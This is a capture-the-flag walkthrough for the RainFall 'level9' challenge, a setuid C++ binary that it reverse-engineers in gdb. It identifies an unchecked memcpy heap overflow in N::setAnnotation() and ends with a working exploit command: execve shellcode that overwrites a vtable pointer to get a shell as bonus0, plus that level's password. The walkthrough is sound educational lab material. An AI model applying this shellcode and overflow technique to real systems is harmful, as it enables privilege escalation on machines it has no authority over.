

# Level9

## Walkthrough

We list the files in the current home directory.

```bash
level9@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
level9@RainFall:~$ file level9 
level9: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xdda359aa790074668598f47d1ee04164f5b63afa, not stripped
```

The file is owned by **bonus0** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Unlike previous levels, the executable has been compiled from C++ source code.

We disassemble the `main()` function.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   ebp
   0x080485f5 <+1>:     mov    ebp,esp
   0x080485f7 <+3>:     push   ebx
   0x080485f8 <+4>:     and    esp,0xfffffff0
   0x080485fb <+7>:     sub    esp,0x20
   0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    ebx,eax
   0x0804861e <+42>:    mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:    mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:    mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    ebx,eax
   0x08048640 <+76>:    mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:    mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:   mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:   mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:   mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:   mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:   add    eax,0x4
   0x0804866a <+118>:   mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:   mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:   mov    DWORD PTR [esp],eax
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
   0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
```

Some functions calls have a weird name, but it is common in C++ to *mangle* functions names. In order to find the corresponding name, we can compare the addresses in the disassembled code with the ones from the list of functions.

The `main()` function:
- compares the argument count (in `[ebp + 0x8]`) and calls `exit()` if it is equal or less than 1
- allocates memory on the heap when calling `_Znwj@plt`, which is in fact calling the `new` operator
- creates instances of class `N` with `_ZN1NC2Ei`
- calls the `setAnnotation()` method of `N` instances
- calls the function whose address is in `edx`.

We set some breakpoints after the `_Znwj()` calls in order to get the returned address from the heap.

```
(gdb) b* 0x0804861c
Breakpoint 1 at 0x804861c
(gdb) b *0x0804863e
Breakpoint 2 at 0x804863e
(gdb) r AAAA BBBB
Starting program: /home/user/level9/level9 AAAA BBBB

Breakpoint 1, 0x0804861c in main ()
(gdb) i r eax
eax            0x804a008        134520840
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) i r eax
eax            0x804a078        134520952
```

The returned addresses are `0x804a008` and `0x804a078`.

From our analysis of `main()`, we conclude that nothing is exploitable, and next we take a look at the `setAnnotation()` method.

```
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   ebp
   0x0804870f <+1>:     mov    ebp,esp
   0x08048711 <+3>:     sub    esp,0x18
   0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:     mov    DWORD PTR [esp],eax
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:    add    edx,0x4
   0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:    mov    DWORD PTR [esp],edx
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

The `setAnnotation()` method calls `memcpy()` to copy the content from `[ebp + 0xc]` to `[ebp + 0x8]`. We display registers information and hexdumps of the stack in order to understand which data is being passed by.

```
(gdb) b* 0x0804871a
Breakpoint 2 at 0x804871a
(gdb) r AAAA BBBB
Starting program: /home/user/level9/level9 AAAA BBBB

Breakpoint 2, 0x0804871a in N::setAnnotation(char*) ()
(gdb) i r eax
eax            0xbffff83d       -1073743811
(gdb) x/s 0xbffff83d
0xbffff83d:      "AAAA"
(gdb) b *0x08048733
Breakpoint 3 at 0x8048733
(gdb) c
Continuing.

Breakpoint 3, 0x08048733 in N::setAnnotation(char*) ()
(gdb) i r esp
esp            0xbffff600       0xbffff600
(gdb) x/4wx 0xbffff600
0xbffff600:     0x0804a00c      0xbffff83d      0x00000004      0xb7f9b600
```

The `memcpy()` function is being called as follows: `memcpy(dest: 0x0804a00c, src: argv[1], n: return of strlen(argv[1]))`. The address `0x0804a00c` is located between the 2 addresses returned by the `new` operator, which means it might be exploitable.



The `setAnnotation()` is exploitable, but we also have to check if the value we insert into memory is used next in the `main()` function, otherwise it is useless.  
At first sight, it seems the value in `[esp + 0x10]`, moved to the `eax` register, is being dereferenced quite a lot.

```
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
```

We set a breakpoint in order to note down the dereferenced addresses.

```
(gdb) b* 0x08048680
Breakpoint 1 at 0x8048680
(gdb) r AAAA BBBB
Starting program: /home/user/level9/level9 AAAA BBBB

Breakpoint 1, 0x08048680 in main ()
(gdb) i r eax
eax            0x804a078        134520952
(gdb) x 0x804a078
0x804a078:      0x08048848
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
```


The relevant addresses are `0x0804a078`, `0x08048848` and `0x0804873a`. Among all of them, we only have control over the `0x0804a078` address, which is located after the address `0x0804a00c` on the heap (the `dest` argument passed to `memcpy()`).

With all these information in mind, our goal in order to complete this level is to pass as `argv[1]` a total of 112 bytes (`0x0804a078` - `0x0804a00c` = `0x6c` (108) + 4 bytes for the overwritten address) containing:
- a shellcode to spawn a shell from a `system()` call
- the address to the start of the copied buffer which points to our shellcode, and is gonna be called by `main()` after dereferencing it
- a payload of 79 characters
- the address of our shellcode incremented by 25 (the length of the shellcode) which corresponds to the address written right after the shellcode, and which is gonna be the address pointed by the second `[eax]`


```bash
level9@RainFall:~$ ./level9 $(python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08' + 'A' * 79 + '\x25\xa0\x04\x08')") $(python -c "print('test')")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Resources

- [Name mangling](https://en.wikipedia.org/wiki/Name_mangling)
